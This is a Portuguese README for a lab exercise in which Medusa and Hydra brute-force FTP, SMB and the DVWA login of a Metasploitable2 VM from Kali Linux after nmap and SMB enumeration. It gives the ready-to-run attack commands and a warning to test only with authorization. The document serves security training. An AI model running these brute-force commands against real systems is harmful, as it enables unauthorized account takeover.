
# Desafio: Ataques de Força Bruta com Medusa (Kali + Metasploitable2/DVWA)

## Resumo
Projeto prático para demonstrar ataques de força bruta em ambiente controlado usando Kali Linux e Medusa, com alvo Metasploitable2 e DVWA. Objetivo: aprender enumeração, execução de ataques e propor medidas de mitigação.

> **Atenção:** todos os testes foram executados apenas em VMs de laboratório (Kali e Metasploitable). Não execute testes em sistemas sem autorização.

## Ambiente
- Hypervisor: VirtualBox  
- Kali Linux — IP: **192.168.1.2**  
- Metasploitable2 (alvo) — IP: **192.168.1.16**  
- Rede: Host-only / Internal Network

## Ferramentas utilizadas
- Kali Linux  
- Medusa  
- Nmap  
- smbclient, enum4linux  
- Hydra (opcional, para formulários HTTP)  
- ssh/sshfs

## Wordlists (exemplos)
- `wordlists/simples_usernames.txt`  
- `wordlists/simples_passwords.txt`  

*(Use wordlists maiores como `rockyou.txt` somente em laboratório.)*

## Comandos principais (exemplos)
### Enumeração
```bash
sudo nmap -sS -sV -p21,22,80,139,445,3306 192.168.1.16 -oN nmap_common.txt
smbclient -L //192.168.1.16 -N
enum4linux -a 192.168.1.16 > enum4linux.txt


medusa -h 192.168.1.16 -u msfadmin -P wordlists/simples_passwords.txt -M ftp -t 4 -f -O results/medusa_ftp.txt


medusa -h 192.168.1.16 -U wordlists/simples_usernames.txt -P wordlists/simples_passwords.txt -M smb -t 8 -f -O results/medusa_smb.txt


hydra -l admin -P wordlists/simples_passwords.txt 192.168.1.16 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=incorrect"

Imagens do Projeto



<p align="center">
  <img src="https://raw.githubusercontent.com/marceloguilherme100/desafio-medusa-kali/main/imagem1.PNG" width="170" alt="Página Inicial 1">
  <img src="https://raw.githubusercontent.com/marceloguilherme100/desafio-medusa-kali/main/imagem2.png" width="170" alt="Página Inicial 2">
  <img src="https://raw.githubusercontent.com/marceloguilherme100/desafio-medusa-kali/main/imagem3.png" width="170" alt="Página Inicial 3">
  <img src="https://raw.githubusercontent.com/marceloguilherme100/desafio-medusa-kali/main/imagem4.png" width="170" alt="Página Inicial 4">
  <img src="https://raw.githubusercontent.com/marceloguilherme100/desafio-medusa-kali/main/imagem5.png" width="170" alt="Página Inicial 5">
</p>



